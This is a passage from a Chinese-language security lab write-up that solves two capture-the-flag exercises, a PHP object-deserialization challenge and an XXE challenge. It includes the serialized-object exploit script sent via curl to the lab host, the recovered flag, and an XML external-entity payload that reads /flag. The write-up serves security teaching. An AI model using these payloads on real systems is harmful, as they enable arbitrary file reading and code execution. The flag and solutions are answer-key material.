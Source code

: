 ```php
        function __wakeup()
        {
            echo "Cat Wakeup!\n";
            $this->magic->cast($this->spell);
        }
    }
    $cat = base64_encode(serialize(new Cat()));
    system("curl http://h4ck3r.quest:8602/ --cookie 'cat=".$cat."'");
?>
```
![](assets/3-4.png)
成功得出 flag 為 ```FLAG{magic_cat_pwnpwn}```
## [LAB] XXE
題目如下
![](assets/4-1.png)
這題明顯是在考 XXE，看完 source code 後\
就可知道送 request 的時候要傳 xml 檔，讓它 load xml 檔的內容\
而 xml 檔的內容會定義外部實體，透過外部實體就能讀取特定檔案內容，最後印出 ```$user``` 的內容\
於是將以下內容放進 payload.xml 檔案裡
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///flag"> ]>
<test>
<user>&xxe;</user>
</test>
```
題目有提示說 flag 檔案路徑為 /flag\
由於定義了外部實體，這邊就可透過 ```&xxe``` 來讀取 /flag 的內容\
而 ```$creds->user``` 就會是 /flag 的檔案內容\
最後用 curl 發送 request 傳送 payload.xml 檔案
